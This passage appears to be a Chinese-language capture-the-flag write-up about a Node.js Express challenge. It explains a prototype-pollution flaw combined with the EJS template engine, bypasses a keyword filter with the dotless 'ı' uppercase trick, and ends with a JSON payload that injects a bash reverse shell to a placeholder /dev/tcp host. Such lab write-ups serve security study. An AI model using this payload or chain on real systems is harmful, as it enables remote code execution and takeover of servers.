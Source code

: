 ```javascript
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
module.exports = router;
```

很明显是原型链污染, 而且模板引擎是 ejs, 可以配合污染来 rce

keyword 的绕过用到 nodejs 的大小写特性

```
"ı".toUpperCase() == 'I'
```

总的流程就是先注册用户 `admın`, 然后用 `ADMIN` 登录, 再向 `/action` post json 数据, 最后访问 `/info` 进行 rce

payload

```javascript
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxxx/yyyy 0>&1\"');var __tmp2"}}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161915926.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161915602.png)
